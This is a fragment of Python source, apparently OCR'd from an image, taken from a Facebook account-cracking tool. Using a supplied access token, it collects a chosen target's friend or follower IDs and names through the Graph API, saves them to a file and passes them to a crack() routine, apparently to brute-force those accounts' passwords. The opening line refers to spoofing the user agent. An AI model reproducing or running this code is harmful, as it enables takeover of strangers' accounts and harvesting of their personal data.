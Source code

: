     jalan("%s [ %sSUCCESSFULLY CHANGED USER AGENT %s]"%(H,P,H));print('%s '%(O));_cici_azimvau_('%s [ %sBACK %s]%s'%(M,P,M,P));menu()


def publik(token):
    jid = '5000'
    try:
        print('%s [%s•%s] %sWRITE \'me\' TO RETRIEVE FRIEND ID'%(H,P,H,K));it = _cici_azimvau_("%s [%s•%s] %sTARGET ID : "%(H,P,H,K));cek_target_crack_(it)
        try:pb = _req_get_("https://graph.facebook.com/" + it + "?fields=name,id,first_name,middle_name,last_name,name_format,picture,short_name&access_token=" + token);ob = _js_lo_(pb.text);print ('%s [%s•%s] %sNAME : %s'%(H,P,H,K,ob['name']))
        except (KeyError,IOError):print('%s '%(O));jalan('%s [%s!%s] %sID NOT FOUND'%(M,P,M,P));menu()
        r = _req_get_("https://graph.facebook.com/%s/friends?limit=%s&fields=name,id,first_name,middle_name,last_name,name_format,picture,short_name&access_token=%s"%(it,jid,token));id = [];z = _js_lo_(r.text);xc = (ob["first_name"]+".json").replace(" ","_");xb = _azimvau_dapunta_(xc,"w")
        for a in z["data"]:
            try:id.append(a["id"]+"•"+a["name"]);xb.write(a["id"]+"•"+a["name"]+"\n")
            except:continue
        xb.close();print('%s [%s•%s] %sTOTAL ID : %s'%(H,P,H,K,len(id)));return crack(xc)
    except (KeyError,IOError):_cici_cici_('%s [%s!%s] %sINVALID TOKEN/COOKIES OR ID NOT FOUND'%(M,P,M,P))


def pengikut(token):
    try:
        jid = '10000'
        x = requests.get("https://graph.facebook.com/me?access_token=" + token)
        y = json.loads(x.text)
        n = y['name'].upper()
    except (KeyError,IOError):
        xox('%s [%s!%s] %sINVALID TOKEN/COOKIES'%(M,P,M,P))
        os.system('rm -rf token.txt')
        menu_log()
    except requests.exceptions.ConnectionError:
        xox('%s [%s!%s] %sCONNECTION PROBLEM'%(M,P,M,P))
        exit()
    try:
        print('%s [%s•%s] %sWRITE \'me\' FOR TAKING FRIEND ID'%(H,P,H,K))
        it = input("%s [%s•%s] %sTARGET ID : %s"%(H,P,H,K,H))
        try:
            pb = requests.get("https://graph.facebook.com/" + it + "?access_token=" + token)
            ob = json.loads(pb.text)
            print ('%s [%s•%s] %sNAME : %s%s'%(H,P,H,O,H,ob['name'].upper()))
        except (KeyError,IOError):
            print
            xox('%s [%s!%s] %sID NOT FOUND'%(M,P,M,P))
            menu()
        r = requests.get("https://graph.facebook.com/%s/subscribers?limit=%s&access_token=%s"%(it,jid,token))
        id = []
        z = json.loads(r.text)
        xc = (ob["first_name"]+".json").replace(" ","_")
        xb = open(xc,"w")
        for a in z["data"]:
            id.append(a["id"]+"•"+a["name"])
            xb.write(a["id"]+"•"+a["name"]+"\n")
        xb.close()
        print('%s [%s•%s] %sALL ID : %s%s'%(H,P,H,O,H,len(id)))
        return crack(xc)
    except Exception as e:
        exit('%s [%s!%s] %sERROR : %s'%(M,P,M,P,e))
